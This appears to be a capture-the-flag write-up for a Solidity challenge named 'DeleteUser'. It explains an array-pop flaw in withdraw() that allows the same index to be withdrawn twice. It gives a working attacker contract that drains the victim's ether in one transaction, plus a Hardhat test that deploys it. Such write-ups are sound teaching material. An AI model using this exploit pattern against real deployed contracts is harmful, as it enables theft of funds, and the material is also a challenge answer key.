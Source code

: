 # DeleteUser

## Goals

=> Drain the victimContracts balance to 0
=> Must exploit one transaction

### Hints

- None

### Solution

- The vulnerability lies in the business logic of the `withdraw()` function, we can just deposit an amount X and then an amount Y which should be less than X, since after withdrawing at index 1 (amount X), the last user in the array (index 2) gets popped, that means we can withdraw at index 1 again (for amount X) just combine those transactions in the constructor of a contract and then send all the eth back to the player to drain the contract within one transaction.

### Attacker Contract

```solidity
contract DeleteUserAttacker {
    DeleteUser target;
    address payable player;

    constructor(address _target, address _player) payable {
        target = DeleteUser(_target);
        player = payable(_player);
        target.deposit{value: 2 ether}();
        target.deposit{value: 1 ether}();
        target.withdraw(1);
        target.withdraw(1);
        uint256 balance = address(this).balance;
        (bool success, ) = player.call{value: balance}("");
        require(success, "Call to player failed");
    }
}
```

### Test

```javascript
it('conduct your attack here', async function () {
	const AttackerFactory = await ethers.getContractFactory(ATTACKER_NAME);
	const attackerContract = await AttackerFactory.connect(attackerWallet).deploy(
		victimContract.address,
		attackerWallet.address,
		{
			value: ethers.utils.parseUnits('3'),
		}
	);
});
```
